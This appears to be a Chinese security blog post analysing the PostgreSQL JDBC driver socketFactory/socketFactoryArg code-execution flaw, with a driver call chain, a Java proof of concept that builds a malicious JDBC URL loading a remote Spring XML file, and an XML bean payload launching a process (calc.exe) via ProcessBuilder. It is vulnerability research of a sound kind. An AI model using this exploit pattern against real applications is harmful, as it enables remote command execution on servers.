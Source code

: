 ```yaml
---
layout: post
title: JBOSS漏洞分析
categories: [blog ]
tags: [Java,]
description: ""
image:
  feature: windows.jpg
  credit: JYcxk
  creditlink: shzqi
---
```


 

## 前言

```java
在冀信杯中就看到过这个漏洞，当时只是利用没看原理，直接打的远程xml命令执行，在后来的安洵杯也遇到了，只不过用的是另外的任意文件写入，特别来跟一下流程。
```

## 任意代码执行 socketFactory/socketFactoryArg

​	影响范围：

- REL9.4.1208 <= PostgreSQL <42.2.25
- 42.3.0 <= PostgreSQL < 42.3.2

这个漏洞主要产生的原因是，`org.postgresql.util.ObjectFactory` 里面调用了`instantiate` 方法

![image-20231224205642825](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224205642825.png)

大概意思就是对classname类名的String构造方法，赋值stringarg并进行初始化

`任意执行某个类的string构造方法`，因此只要找到一个符合这样条件的类即可

![image-20231224205955928](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224205955928.png)

传入的参数都是通过 `Properties info`来获得的，所以能直接反射修改:

#### 调用链子

```java
instantiate:62, ObjectFactory (org.postgresql.util)
getSocketFactory:39, SocketFactoryFactory (org.postgresql.core)
openConnectionImpl:184, ConnectionFactoryImpl (org.postgresql.core.v3)
openConnection:51, ConnectionFactory (org.postgresql.core)
<init>:225, PgConnection (org.postgresql.jdbc)
makeConnection:466, Driver (org.postgresql)
connect:265, Driver (org.postgresql)
getConnection:664, DriverManager (java.sql)
getConnection:270, DriverManager (java.sql)
```

### 漏洞利用

通过加载远程恶意XML实现RCE，先看一个案例

```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.SQLException;

public class cve2022 {
    public static void main(String[] args) throws SQLException, SQLException {
        String socketFactoryClass = "org.springframework.context.support.ClassPathXmlApplicationContext";
        String socketFactoryArg = "http://127.0.0.1:9999/poc.xml";
        String jdbcUrl = "jdbc:postgresql://127.0.0.1:5432/test/?socketFactory="+socketFactoryClass+ "&socketFactoryArg="+socketFactoryArg;
        Connection connection = DriverManager.getConnection(jdbcUrl);
    }
}
```

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xmlns:p="http://www.springframework.org/schema/p"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
        http://www.springframework.org/schema/beans/spring-beans.xsd">
<!--    普通方式创建类-->
   <bean id="exec" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
           
            <value>calc.exe</value>
          </list>
        </constructor-arg>
    </bean>
</beans>
```

![image-20231224212159159](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224212159159.png)

关键的地方在`org.postgresql.Driver#connect` ,这里通过parseURL对传入的url进行了解析存入了prpos也就是info中

![image-20231224213235810](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224213235810.png)

进入导致传入`ObjectFactory ` 的形参都是可控的，这里初始化的是

`org.springframework.context.support.ClassPathXmlApplicationContext`

![image-20231224213416888](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224213416888.png)

![image-20231224213602623](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224213602623.png)

这两个类都可以执行xml代码

![image-20231224220156639](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224220156639.png)

```java
是通过远程加载 bean 配置文件，利用初始化 ProcessImpl 类的 bean 的过程，将任意字符串作为命令行执行内容注入，达到任意命令行命令执行的效果,也就是远程加载xml文件进行解析。
```

#### 调用链子

![image-20231224220724248](X:\github\cxkjy.github.io\cxkjy.github.io\img\final\image-20231224220724248.png)
